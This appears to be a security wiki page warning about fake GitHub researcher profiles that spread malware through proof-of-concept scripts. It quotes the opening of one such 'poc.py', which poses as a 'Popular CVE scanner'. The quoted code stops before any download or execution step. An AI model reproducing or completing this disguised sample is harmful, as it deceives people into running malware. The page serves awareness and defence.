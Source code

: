 # Github 0 Days

## Fake Github Profiles

Recently, some people have been creating fake researcher profiles on Github and distributing malware (poorly) using the `poc.py` scripts.&#x20;

{% embed url="https://thehackernews.com/2023/06/fake-researcher-profiles-spread-malware.html" %}

&#x20;Here's an example of one:

<figure><img src="../../.gitbook/assets/image (77) (1).png" alt=""><figcaption></figcaption></figure>

A 'famous' researcher only having 1 repository...strange. Here's the link if you wanna take a look at it for yourself, and obviously **do not run their POC scripts:**

> UPDATE: All the repos have been deleted! No one can view them anymore.&#x20;

Here's the contents of their `poc.py` scripts here:

```python
import urllib.request
import stat
import os
import subprocess
import time
import sys
from zipfile import ZipFile

print("###############################################################")
print("###############################################################")
print("                     Popular CVE scanner")
print("###############################################################")
print("###############################################################")

MAX_ATTEMPTS = 2000 # False negative chance: 0.04%

def fail(msg):
    print(msg, file=sys.stderr)
    print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
    sys.exit(2)
```